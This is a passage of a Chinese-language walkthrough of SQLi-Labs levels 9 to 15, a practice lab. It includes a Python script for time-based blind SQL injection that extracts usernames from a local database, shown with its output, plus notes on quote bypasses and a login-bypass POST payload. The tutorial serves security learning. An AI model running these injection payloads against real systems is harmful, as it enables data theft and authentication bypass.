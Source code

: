```python
import requests
import time

MAX_FILED_LENGTH = 40
URL_PREFIX = "http://localhost/SQLi-Labs/Less-8/"
SLEEP_TIME = 0.5

def getBinarySearchResultByTime(url: str, paramRange: list[int], sleepTime: float)->int:
	......

columnsName = ""
for i in range(1, MAX_FILED_LENGTH+1):
    columnsName += chr(getBinarySearchResultByTime(
        URL_PREFIX + "?id=1' and if(ascii(substr((select group_concat(username) from security.users)," + str(i) + ",1)) > {},sleep("+str(SLEEP_TIME)+"),1) --+",
        [0, 128],
        SLEEP_TIME
    ))
    print(columnsName)
```

```shell
C:\> python writeup.py
    D
    Du
    ......
    Dumb,Angelina,Dummy,secure,stupid,super
    Dumb,Angelina,Dummy,secure,stupid,superm
```

### §1.3.10 第10关 时间盲注（绕过`""`）

重复第9关步骤，发现不成功，转而穷举包含方式，最终确定为`""`，剩余步骤与第9关相同。

### §1.3.11 第11关 登录界面错误注入（绕过`''`）

该登录界面有两个参数：`passwd`与`uname`，经实测均有错误回显，没有正确回显，包含方式均为`''`，`ORDER BY`爆列数为2。随便选一种错误注入即可，剩余步骤与第5关相同。

### §1.3.12 第12关 登录界面错误注入（绕过`("")`）

一开始以为是`''`，发现无报错回显，尝试时间盲注也不行。后来一看源码才知道包含方式是`("")`，而且有报错回显。剩下步骤与第11关相同。

### §1.3.13 第13关 登录界面报错注入（绕过`('')`）

穷举各种包含方法，得知包含方法为`('')`，且报错有回显。剩余步骤与第5关相同。

### §1.3.14 第14关 登录界面报错注入（绕过`""`）

穷举各种包含方法，得知包含方法为`""`，且报错有回显。剩余步骤与第5关相同。

### §1.3.15 第15关 登录界面盲注（绕过`''`）

正误特征有差别，但报错无回显。构造POST的Payload`passwd=456' or '1'='1&uname=123' or 1=1 --+`发现登录成功，说明包含方式为`''`。接下来随便选一种盲注方式即可。
